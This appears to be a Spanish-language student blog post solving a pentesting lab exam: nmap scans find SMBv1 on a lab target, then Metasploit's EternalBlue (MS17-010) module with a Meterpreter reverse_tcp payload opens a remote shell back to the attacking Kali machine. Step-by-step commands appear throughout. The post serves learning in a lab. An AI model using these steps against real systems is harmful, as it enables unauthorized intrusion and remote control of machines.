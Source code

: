```yaml
---
title: EXAMEN PARCIAL
date: 2024-03-11 18:10:00 -05:00
categories: [Reconnaisance, Kill Chain, Pentesting]
tags: [nmap, kali, metasploit]  # TAG names should always be lowercase
---
```



# RESOLUCION DE EXAMEN PARCIAL

para iniciar con nuestro laboratorio tenemos que :
para nuestra maquina kalilinux: 10.0.2.9
para nuestra maquina metasploit: 10.0.2.4
![virtual](/assets/images/virtual.png)

con ello podremos realizar nuestro primer paso:

1. Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
```bash 
        nmap -sV -p- -oA smb_scan 10.0.2.4.
```


donde:
- -sV: Realiza una detección de versión de los servicios.
- -p-: Escanea todos los puertos, del 1 al 65535.
- -oA smb_scan: Guarda los resultados del escaneo en archivos con el prefijo 
"smb_scan".
- 10.0.2.4: es la IP de nuestra victima.

![dos](/assets/images/dos.png)

 
obteniendo como respuesta la siguiente imagen:
![tres][def]

[def]: /assets/images/tres.png

por lo que averiguo un poco mas sobre el SMBv1 y ejecuto este otro comando:
```bash 
        nmap -p 139,445 --script=smb-protocols <10.0.2.4>
```
explicando un poco a lo averiguado:
- los puertos 139 y 445 son los puertos asociados con el servicio SMB.
- El flag --script=smb-protocols indica a Nmap que utilice el script "smb-protocols" para enumerar los protocolos SMB habilitados en el servidor.
- Al analizar la salida del comando, busco específicamente el término "SMBv1" o "NT LM 0.12" en la lista de protocolos SMB detectados.
- Si veo una línea que indica "SMBv1: Enabled" o "NT LM 0.12: Supported", entonces puedo confirmar que el servicio SMBv1 está habilitado en el servidor objetivo.

gracias a la ayuda del tip brindado, y obtengo la siguiente respuesta:
![cuatri](/assets/images/cuatro.png)

explicando un poco mas lo encontrado respecto al comando de nmap en los puertos 139,445. Segun lo que muestra estos puertos estan abiertos, el puerto 139/tcp es un servicio netbios -ssn, el puerto 445/tcp es un servicio microsoft-ds y estos puertos estan asociados con el servicio SMB.

smb-protocols fue utilizado para enumerar los protocolos SMB habilitados, el resultado muestra que el protocolo NT LM 0.12 o SMBv1 esta presente, y se lo describe como peligroso pero esta como predeterminado. Esto indica que el servidor tiene habilitado el servicio SMBv1 que en un principio se habia habilitado segun las indicaciones del docente. Algo adicional que se podria indicar es que el escaneo se completo en 0.22 segundos.

2. segun los resultados del escaneo con NMAP, el servidor objetivo tiene habilitado el servicio SMBv1, lo cual lo hace vulnerable a diversos ataques, entre ellos el exploit eternalBlue MS17-010.

* segun su tip, para explotar esta vulnerabilidad utilizaremos el framework metasploit y seleccionare el modulo:
```bash 
        exploit/windows/smb/ms17_010_eternalblue
```
## pasos
 para ejecutar el modulo entraremos primero a metasploit con el comando 
 ```bash 
        msfconsole -q
```

luego usaremos el modulo:
```bash 
        use exploit/windows/smb/ms17_010_eternalblue
```
donde configuraremos los parametros necesarios para el exploit, por ejemplo:
- set RHOSTS 10.0.2.4
- set LHOST 10.0.2.9
- set RPORT 445

![cinco](/assets/images/cinco.png)

![seis](/assets/images/seis.png)

explicando un poco lo que se ha realizado, es que este modulo aprovecha la vulnerabilidad CVE-2017-0143, conocida como EternalBlue, que afecta a la implementacion del protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar el codigo arbitrario en el sistema objetivo a traves de un desbordamiento de bufer en el procesamiento de paquetes SMB maliciosos.

Al ejecutar este modulo, metasploit enviara los payloads SMB necesarios para explotar esta vulnerabilidad y establecer una conexion de reverse shell desde el sistema objetivo hacia nuestra maquina atacante. Esto permitira obtener acceso remoto y control sobre el sistema objetivo.

![siete](/assets/images/siete.png)

segun la respuesta de este modulo se puede apreciar que metasploit identifica que el servidor objetivo 10.0.2.4 es vulnerable a MS17-010 EternalBlue, que afecta a windows.
se establece una conexion con el servidor objetivo para realizar la explotacion, una vez realizada esta conexion se procede a un volcado del bufer de memoria cruda del servidor, se envian los payload SMB maliciosos para explotar la vulnerabilidad. 
La expotacion se completa con exito, indicado por la salida ETERNALBLUE overwrite completed successfully, posterior a ello se envia una señal de control a la conexion corrupta. 

adicionalmente indico un tip el cual era realizar un payload, este "windows/x64/meterpreter/reverse_tcp", nos permite obtener una seseion de meterpreter despues de que el exploit sea ejecutado con exito. Este establecere una conexion de reverse shell.

![ocho](/assets/images/ocho.png)

una vez generado este exploit procedo a documentar primero la sesion meterpreter en la maquina victima si el ataque es exitoso.

![nueve](/assets/images/nueve.png)

para mi caso el mensaje de salida de metasploid indica que, METERPRETER SESION 2 OPENEDED 10.0.2.9:4444   10.0.2.4:49279  2024-11-03 a las 16:25:03 -8


![nueve](/assets/images/nueve.png)

esto confirmaria que la explotacion fue exitosa y se establecio una sesion de meterpreter en la maquina atacante y el servidor objetivo.
sdsd
dasd